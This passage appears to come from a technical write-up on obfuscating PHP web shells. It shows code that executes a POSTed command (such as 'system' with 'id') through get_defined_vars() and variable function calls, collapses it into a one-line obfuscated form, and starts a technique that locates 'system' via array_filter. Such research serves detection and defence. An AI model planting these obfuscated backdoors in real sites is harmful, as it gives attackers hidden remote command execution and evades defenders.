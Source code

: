 To execute the expected payload, one should have something like:

```php
$post_key = array_keys(get_defined_vars())[1]; //get 2nd key
$post_data = get_defined_vars()[$post_key]; //['a' => 'system', 'b' => 'id']
$post_data_keys = array_keys($post_data); // ['a', 'b']
$system = $post_data[$post_data_keys[0]]; //['a' => 'system', 'b' => 'id'][['a','b'][0]] = 'system'
$id = $post_data[$post_data_keys[1]]; //same at index 1
$system($id);
```

Let's replace all local variables with function calls:

```php
get_defined_vars()[array_keys(get_defined_vars())[1]][array_keys(get_defined_vars()[array_keys(get_defined_vars())[1]])[0]](get_defined_vars()[array_keys(get_defined_vars())[1]][array_keys(get_defined_vars()[array_keys(get_defined_vars())[1]])[1]]);
```

## Technique #3: F*** the `system`

The routine `get_defined_vars` is handy, but it has a drawback: it cannot be used as a variable function, making it more difficult to hide. This third technique resolves function names without hardcoding them nor passing them as argument, and uses functions that do not suffer from the same restriction. The idea is quite simple: the list of defined functions is filtered with `array_filter` and a submitted criterion. The matching name is dynamically called, while forwarding the second POST'ed argument.

To begin with, the list of existing routines can be obtained as follows (snipped for brevity):

```
Array
(
    [internal] => Array
        (
            [0] => zend_version
            [1] => func_num_args
            [2] => func_get_arg
            ...
        )
    [user] => Array
        (
        )
)
```

The first element of this two-dimensional array (labelled as _internal_) contains the list of existing functions (i.e. not user-defined). A first approach could be to locate the index of `system` and hardcode its key, but the latter could change, depending on the PHP configuration (loaded modules, disabled functions, etc.), making this approach quite unstable. To make it more configuration-independent, this array could be filtered with a lambda function and the routine [_array\_filter_](https://www.php.net/manual/en/function.array-filter.php);

>
>Iterates over each value in the array passing them to the callback function. If the callback function returns true, the current value from array is returned into the result array.
>
>Array keys are preserved, and may result in gaps if the array was indexed. The result array can be reindexed using the array_values() function.
>
